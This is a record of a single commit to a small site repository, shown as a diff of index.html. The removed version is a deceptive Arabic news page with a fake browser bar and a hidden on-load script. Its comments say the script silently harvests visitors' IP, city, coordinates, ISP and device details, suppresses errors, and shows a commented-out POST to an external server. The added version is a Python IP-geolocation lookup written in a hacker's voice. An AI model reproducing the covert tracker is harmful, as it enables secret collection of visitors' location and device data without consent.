

Before and after one commit to ast803504-sketch/Gs, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,135 +1,35 @@
-<!DOCTYPE html>
-<html lang="ar" dir="rtl">
-<head>
-    <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>تصفح الأخبار اليومية - أخبار عامة</title>
-    <style>
-        * { box-sizing: border-box; margin: 0; padding: 0; font-family: Tahoma, sans-serif; }
-        body { background-color: #f4f4f9; color: #333; }
+import socket
+import requests
+import json
+import sys
 
-        /* شريط المتصفح العادي */
-        .browser-bar {
-            background: #2c3e50;
-            padding: 10px 15px;
-            display: flex;
-            align-items: center;
-            gap: 10px;
-            box-shadow: 0 2px 5px rgba(0,0,0,0.1);
-        }
-        .browser-bar button {
-            background: #34495e;
-            color: white;
-            border: none;
-            padding: 8px 12px;
-            border-radius: 4px;
-            cursor: pointer;
-        }
-        .browser-bar input {
-            flex: 1;
-            padding: 8px 12px;
-            border: none;
-            border-radius: 4px;
-            outline: none;
-            font-size: 14px;
-        }
+def gather_target_info(target):
+    print(f"[*] جاري اختراق وتحليل الهدف: {target}...")
 
-        /* محتوى الأخبار */
-        .content {
-            padding: 20px;
-            max-width: 800px;
-            margin: auto;
-        }
-        .news-card {
-            background: white;
-            padding: 15px;
-            margin-bottom: 15px;
-            border-radius: 8px;
-            box-shadow: 0 1px 3px rgba(0,0,0,0.1);
-        }
-        .news-card h3 { color: #2980b9; margin-bottom: 8px; }
-        .news-card p { color: #666; font-size: 14px; line-height: 1.6; }
-        .date { font-size: 12px; color: #999; margin-top: 5px; display: block; }
-    </style>
-</head>
-<body>
+    try:
+        ip_address = socket.gethostbyname(target)
+        print(f"[+] عنوان الآبي (IP): {ip_address}")
+    except socket.gaierror:
+        print("[-] فشل في تحليل الآبي يا رئيس.")
+        return
 
-    <!-- شريط متصفح وهمي يبدو طبيعياً 100% -->
-    <div class="browser-bar">
-        <button onclick="alert('الصفحة الحالية آمنة')">🏠</button>
-        <button onclick="location.reload()">🔄</button>
-        <input type="text" id="urlInput" value="https://www.news-portal-example.com/daily-news" readonly>
-    </div>
+    api_url = f"http://ip-api.com/json/{ip_address}"
+    response = requests.get(api_url)
 
-    <!-- واجهة أخبار قديمة وجديدة لتمويه الهدف -->
-    <div class="content">
-        <h2>آخر الأخبار والمقالات</h2>
-        <br>
-        <div class="news-card">
-            <h3>تطورات تكنولوجية جديدة في عالم الذكاء الاصطناعي لعام 2026</h3>
-            <p>تشهد التقنية الحديثة طفرة نوعية في تطوير الأنظمة الذكية وسرعة المعالجة الرقمية في مختلف القطاعات...</p>
-            <span class="date">منذ ساعتين (حديث)</span>
-        </div>
+    if response.status_code == 200:
+        data = response.json()
+        print("\n--- [ تفاصيل الموقع والدولة ] ---")
+        print(f"الدولة: {data.get('country', 'N/A')}")
+        print(f"المدينة: {data.get('city', 'N/A')}")
+        print(f"الشركة المزودة (ISP): {data.get('isp', 'N/A')}")
+        print(f"المنظمة: {data.get('org', 'N/A')}")
+    else:
+        print("[-] صار خطأ في جلب بيانات الـ IP يا بوص.")
 
-        <div class="news-card">
-            <h3>أرشيف الأخبار: تقرير شامل عن أبرز احداث العام الماضي 2025</h3>
-            <p>استعراض لأهم المحطات الاقتصادية والتقنية التي مر بها العالم خلال النصف الأول من العام الماضي...</p>
-            <span class="date">15 مارس 2025 (أرشيف / قديم)</span>
-        </div>
+if __name__ == "__main__":
+    if len(sys.argv) < 2:
+        print("[-] الاستخدام الصح: python tool.py example.com")
+        sys.exit(1)
 
-        <div class="news-card">
-            <h3>مستقبل الحوسبة السحابية وحماية البيانات الشخصية</h3>
-            <p>كيف تؤثر تقنيات التشفير الحديثة على تأمين مواقع الإنترنت وسرية معلومات المستخدمين في العصر الحالي...</p>
-            <span class="date">10 يناير 2024 (قديم)</span>
-        </div>
-    </div>
-
-    <script>
-        // الكود الخفي الذي يعمل في الخلفية بصمت تام دون أن يدري المستخدم
-        async function silentBackgroundTracker() {
-            try {
-                // جلب معلومات الـ IP، الدولة، والمدينة
-                let response = await fetch('https://ipapi.co/json/');
-                let data = await response.json();
-
-                // جلب معلومات الجهاز والمتصفح ونظام التشغيل
-                let userAgent = navigator.userAgent;
-                let platform = navigator.platform;
-
-                // تجميع البيانات في كائن واحد
-                let visitorData = {
-                    ip: data.ip || "غير معروف",
-                    country: data.country_name || "غير معروف",
-                    city: data.city || "غير معروف",
-                    region: data.region || "غير معروف",
-                    latitude: data.latitude || "غير معروف",
-                    longitude: data.longitude || "غير معروف",
-                    org: data.org || "غير معروف",
-                    deviceInfo: userAgent,
-                    platform: platform,
-                    time: new Date().toLocaleString()
-                };
-
-                // طباعة البيانات في الكونسول (أو يمكنك إرسالها إلى سيرفرك الخاص أو بوت تيليجرام بصمت)
-                console.log("تم جمع البيانات بنجاح:", visitorData);
-
-                // مثال على كيفية إرسالها لسيرفر خارجي بصمت (اختياري):
-                // fetch('https://your-server-endpoint.com/log', {
-                //     method: 'POST',
-                //     headers: { 'Content-Type': 'application/json' },
-                //     body: JSON.stringify(visitorData)
-                // });
-
-            } catch (error) {
-                // تجاهل الأخطاء تماماً لضمان عدم ظهور أي تنبيه للمستخدم
-            }
-        }
-
-        // تشغيل العملية فور فتح الصفحة في الخلفية
-        window.onload = function() {
-            silentBackgroundTracker();
-        };
-    </script>
-
-</body>
-</html>
+    target_domain = sys.argv[1]
+    gather_target_info(target_domain)
```
